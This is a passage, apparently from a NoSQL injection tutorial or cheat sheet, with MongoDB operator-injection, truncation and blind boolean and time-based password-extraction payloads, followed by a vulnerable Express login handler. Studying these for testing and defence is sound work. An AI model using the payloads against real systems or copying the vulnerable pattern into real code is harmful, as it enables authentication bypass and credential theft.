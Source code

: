 ### Object Injection Patterns

```javascript
// Inject into unmarshalled JSON object
{"$gt": ""} // Injected instead of a string value

// Function injection
{"$function": "function(){return shellcode}"} // Specific to certain drivers
```


### NoSQL Truncation Attacks

```
# Some implementations might truncate the query
username[$ne]=admin&username=admin
```

### Blind NoSQL Injection Techniques

```javascript
// Boolean-based blind
// Testing if admin user exists and password starts with 'a'
username=admin&password[$regex]=^a.*

// Time-based blind
username=admin&password[$where]=function(){if(this.substr(0,1)=='a'){sleep(5000)}return true}

// Extraction character by character
username=admin&password[$regex]=^a.*
username=admin&password[$regex]=^b.*
...and so on
```

## Language-Specific Injection Examples

### Node.js + Express + MongoDB Example

Vulnerable code:
```javascript
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;
  
  db.collection('users').findOne({
    username: username,
    password: password
  }, (err, user) => {
    // Authentication logic
  });
});
```

